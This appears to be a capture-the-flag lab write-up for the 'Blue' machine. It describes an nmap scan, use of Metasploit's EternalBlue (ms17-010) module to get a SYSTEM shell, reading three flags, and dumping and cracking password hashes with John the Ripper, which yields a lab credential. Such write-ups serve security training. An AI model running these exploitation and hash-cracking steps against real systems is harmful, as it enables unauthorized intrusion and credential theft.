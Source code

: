 # Blue Machine

## Progress

- [x] User Owned
- [x] Root Owned

---

## Walkthrough

- Ran basic nmap scan `nmap <IP>`
- Found 9 ports open
- Netbios/Samba running on 139,445
- It's called blue and samba is running so it might be vulnerable to "EternalBlue"
- Checked for "EternalBlue" (ms17-010), Found vulnerable
- Metasploit has module for EternalBlue so fired up `msfconsole`
- Searched "EternalBlue", found exploit `exploit/windows/smb/ms17_010_eternalblue`
- Ran `check` to confirm the target is vulnerable and it was
- Set required options and `run`
- Got meterpreter shell back
- Ran `shell` to drop into system shell
- Typing `whoami` revealed "nt authority\system", the highest priviledge user
- Typing `exit` will drop back to meterpreter shell
- Ran `find -f flag*` to find all flags in system
- Found 1st flag, do `cat c:/flag1.txt` to see flag
- Found 2nd flag, do `cat c:/Windows/System32/config/flag2.txt` to see flag
- Found 3rd flag, do `cat c:/Users/Jon/Documents/flag3.txt` to see flag 

---

## Extras

- Ran `hashdump` to see password hashes
- Copied all hashes to a file
- Cracked using John the Ripper
- Found pair "Jon:alqfna22"